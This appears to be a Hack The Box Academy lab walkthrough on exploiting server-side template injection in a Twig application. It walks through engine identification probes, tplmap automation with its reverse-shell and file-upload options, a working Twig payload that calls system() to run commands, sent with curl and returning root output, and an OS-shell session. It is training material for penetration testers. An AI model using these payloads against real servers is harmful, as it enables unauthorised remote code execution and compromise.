 ![image](https://academy.hackthebox.com/storage/modules/145/img/twig1.png)

Let us submit on the input field mathematical expressions in curly brackets, such as the ones mentioned on the `SSTI Identification` section, starting with `{7*7}`.

![image](https://academy.hackthebox.com/storage/modules/145/img/twig2.png)

It doesn't look like the application evaluated the submitted expression. Let us continue with another expression, `${7*7}` this time.

![image](https://academy.hackthebox.com/storage/modules/145/img/twig3.png)

It doesn't look like the application evaluated this expression either. What about `{{7*7}}`?

![image](https://academy.hackthebox.com/storage/modules/145/img/twig6.png)

Luckily this time, the application evaluated the latest mathematical expression we submitted and returned the result, 49. It looks like we may be dealing with an SSTI vulnerability!

As already mentioned, the first thing we need to do when dealing with SSTI vulnerabilities is to identify the template engine the application is utilizing. Let's use PortSwigger's diagram to assist us (shown in the previous section). We already know that the `{{7*7}}` expression was evaluated successfully. The next expression the diagram suggests trying is `{{7*'7'}}`. Let us try it and see how the application responds.

![image](https://academy.hackthebox.com/storage/modules/145/img/twig_.png)

The application successfully evaluated this expression as well. According to PortSwigger's diagram, we are dealing with either a Jinja2 or a Twig template engine.

There are template engine-specific payloads that we can use to determine which of the two is being utilized. Let us try with the below Twig-specific one:

```php
{{_self.env.display("TEST")}}
```

![image](https://academy.hackthebox.com/storage/modules/145/img/twig7.png)

The Twig-specific payload was evaluated successfully. A Twig template engine is being utilized on the backend. For an extensive list of template engine-specific payloads, please refer to the following resources:

- [PayloadsAllTheThings - Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
    
- [HackTricks - SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
    

We could have automated the template engine identification process we just executed through [tplmap](https://github.com/epinna/tplmap), as follows. If you didn't notice, the user's input is submitted via the `name` parameter and through a POST request (hence the `-d` parameter in `tplmap`).

#### tplmap.py

  SSTI Exploitation Example 1

```shell-session
Pangulin@htb[/htb]$ git clone https://github.com/epinna/tplmap.git
Pangulin@htb[/htb]$ cd tplmap
Pangulin@htb[/htb]$ pip install virtualenv
Pangulin@htb[/htb]$ virtualenv -p python2 venv
Pangulin@htb[/htb]$ source venv/bin/activate
Pangulin@htb[/htb]$ pip install -r requirements.txt
Pangulin@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

The next step is to gain remote code execution on the target server. Before moving the payload part, it should be mentioned that Twig has a variable `_self`, which, in simple terms, makes a few of the internal APIs public. This `_self` object has been documented, so we don't need to brute force any variable names (more on that in the next SSTI exploitation examples). Back to the remote code execution part, we can use the `getFilter` function as it allows execution of a user-defined function via the following process:

- Register a function as a filter callback via `registerUndefinedFilterCallback`
    
- Invoke `_self.env.getFilter()` to execute the function we have just registered
    

#### Payload


```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
```

Let's submit the payload using cURL this time.

#### cURL - Interacting with the Target

  SSTI Exploitation Example 1

```shell-session
Pangulin@htb[/htb]$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<head>
  <link rel="stylesheet" type="text/css" href="css/default.css" media="screen"/>
  <title>SSTI</title>
</head>
<body>
<div class="container">
  <div class="main">
    <div class="header">
      <div class="title">
        <h1>I'm here to say hello</h1>
      </div>
    </div>
    <div class="content">
 

<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group"> 
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div> 
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>

        </div>    
        <div class="clearer"><span></span></div>
    </div>
    <div class="footer">Break me!</div>
</div>
</body>
```

As we can see in the output/response above, the submitted payload was evaluated, and the specified commands (`id`, `uname -a`, and `hostname`) were executed successfully.

Again, we could have automated the template engine exploitation process we just executed through [tplmap](https://github.com/epinna/tplmap), as follows.

#### tplmap.py - OS Shell

  SSTI Exploitation Example 1

```shell-session
Pangulin@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Run commands on the operating system.

Linux $ 
```

We can now execute any command of our choosing through the shell `tplmap` established for us!

``Note: When we notice that the mathematical expressions we submit are evaluated, the application may be vulnerable to XSS as well.

Let us test the above statement by submitting an XSS payload inside curly brackets to this section's exercise target. The result of doing so can be seen in the image below.

![image](https://academy.hackthebox.com/storage/modules/145/img/twig8.png)

